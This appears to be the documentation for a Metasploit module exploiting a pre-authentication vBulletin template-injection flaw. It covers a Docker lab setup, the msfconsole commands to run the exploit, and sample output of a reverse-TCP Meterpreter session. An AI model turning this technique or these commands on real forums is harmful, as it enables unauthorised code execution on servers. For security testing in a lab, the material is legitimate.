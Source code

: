 ## Vulnerable Application

This Metasploit module exploits a design flaw in vBulletin’s AJAX API handler and template
rendering system, affecting **vBulletin 5.1.0 through 6.0.3** on **PHP 8.1+**.
An unauthenticated attacker can invoke the protected `vB_Api_Ad::replaceAdTemplate()` method to inject a malicious template that calls
`system(base64_decode($_POST[<param>]))`, then trigger execution via the `ajax/render/ad_<location>` endpoint,
yielding arbitrary code execution as the webserver user.

> **Note:** vBulletin is commercial software and is **not** included here. You must obtain a licensed copy and extract it under `./upload/`.

---

## To replicate vulnerable environments

1. **vBulletin 6.0.1 (tested)**

   * Purchase and download vBulletin 6.0.1 from the official portal.
   * Extract all files into `./upload/`.

2. **Other versions (5.1.0–6.0.3)**

   * Repeat the above with any of the supported versions.
   * Ensure you run on PHP 8.1+; earlier PHP versions do not expose this flaw.

---

## Docker Compose Configuration

```yaml
services:
  db:
    image: mysql:5.7
    container_name: vbulletin_db
    restart: unless-stopped
    environment:
      MYSQL_ROOT_PASSWORD: root_password_here
      MYSQL_DATABASE: vbulletin
      MYSQL_USER: vbulletin
      MYSQL_PASSWORD: vb_password_here
    volumes:
      - db_data:/var/lib/mysql

  web:
    build: .
    container_name: vbulletin_web
    depends_on: [db]
    ports: ["8888:80"]
    volumes:
      - ./do_not_upload:/opt/vbulletin-tools:ro
    environment:
      VB_DB_HOST: db
      VB_DB_NAME: vbulletin
      VB_DB_USER: vbulletin
      VB_DB_PASS: vb_password_here

volumes:
  db_data:
```

Create the following **Dockerfile** and **docker-entrypoint.sh** in the same directory:

**Dockerfile**

```dockerfile
FROM php:8.1-apache

COPY upload/ /var/www/html/
COPY do_not_upload/ /opt/vbulletin-tools/

RUN apt-get update && \
    apt-get install -y --no-install-recommends \
       libzip-dev zlib1g-dev libonig-dev \
       libpng-dev libjpeg-dev libfreetype6-dev && \
    docker-php-ext-install \
       zip mysqli pdo_mysql gd mbstring && \
    a2enmod rewrite && \
    rm -rf /var/lib/apt/lists/*

RUN echo "phar.readonly=Off" > /usr/local/etc/php/conf.d/vbulletin.ini

COPY --chmod 755 docker-entrypoint.sh /usr/local/bin/
ENTRYPOINT ["docker-entrypoint.sh"]
CMD ["apache2-foreground"]
```

**docker-entrypoint.sh**

```bash
#!/bin/bash
chown -R www-data:www-data /var/www/html
exec "$@"
```

---

## Verification Steps

1. **Start the environment**
```bash
docker-compose up -d
```

2. **Install vBulletin**
Open [http://localhost:8888](http://localhost:8888) and complete the installation:

* **Database Host:** db
* **DB Name:** vbulletin
* **DB User:** vbulletin / vbpass

3. **Run `msfconsole`**

```bash
use exploit/multi/http/vbulletin_replace_ad_template_rce
set RHOSTS 127.0.0.1
set RPORT 8888
set TARGETURI /
check
```
* You should see:
```bash
[*] Detected vBulletin version: 6.0.1
[*] 127.0.0.1:8888 - The target appears to be vulnerable. vBulletin version 6.0.1 is likely vulnerable (< 6.0.4)
```

---

## Options

No option

---

## Scenarios

### Unauthenticated Pre-Auth RCE

1. Ensure vBulletin 5.1.0–6.0.3 is installed and running on PHP 8.1+.
2. In `msfconsole`, configure and run:

```bash
set RHOSTS localhost
set RPORT 8888
set TARGETURI /
```

---

## Expected Results

### With `cmd/linux/http/x64/meterpreter/reverse_tcp`

```plaintext
msf6 exploit(multi/http/vbulletin_replace_ad_template_rce) > run http://lab:8888
[*] Started reverse TCP handler on 192.168.1.36:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Detected vBulletin version: 6.0.1
[+] The target appears to be vulnerable. vBulletin version 6.0.1 is likely vulnerable (< 6.0.4)
[*] Injecting RCE template at location 'MDb' with POST param 'YHp'
[*] Triggering payload execution via routestring 'ajax/render/ad_MDb'
[*] Sending stage (3045380 bytes) to 172.28.0.3
[*] Meterpreter session 9 opened (192.168.1.36:4444 -> 172.28.0.3:45980) at 2025-05-23 22:46:22 +0200

meterpreter > sysinfo
Computer     : 172.28.0.3
OS           : Debian 12.11 (Linux 6.14.6-2-cachyos)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```
